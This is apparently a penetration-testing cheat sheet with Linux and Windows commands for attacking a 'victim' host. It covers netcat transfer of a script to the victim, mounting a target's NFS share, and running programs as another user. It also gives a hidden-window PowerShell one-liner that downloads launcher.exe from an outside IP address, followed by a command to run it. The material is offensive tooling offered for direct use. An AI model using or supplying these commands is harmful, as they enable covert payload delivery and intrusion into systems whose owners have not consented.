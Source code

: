 > Section for specific knowledge concerning operating systems and special cases

## Linux

### Copy if no web access (Transfer via simple netcat)

```bash
# copy via netcat
nc -l -p 1234 > script.sh # on victim
nc -w 3 <victimIP> 1234 < script.sh # from attacker
```

### Mount nfs share

```bash
sudo mkdir /mnt/nfsshare
sudo mount -t nfs <targetIP>:/home/<remoteShareName> /mnt/nfsshare -o nolock
```

## Windows

### Run programs in another user context within shell

Requirements
- User and password

Run an application in a shell without graphical interface if message `this program cannot be run in DOS mode` appears

```powershell
cmd> runas /user:<username> app.exe
```

### Download a file from cli

Requirements
- powershell installed

```cmd
powershell.exe -nop -w hidden -c "$client = new-object System.Net.WebClient;$client.DownloadFile('http://175.12.80.10:8000/launcher.exe','C:\launcher.exe')"
```

### Run program in seperate cmd

```powershell
start cmd /c c:\launcher.exe  # starts new cmd with launcher.exe
```

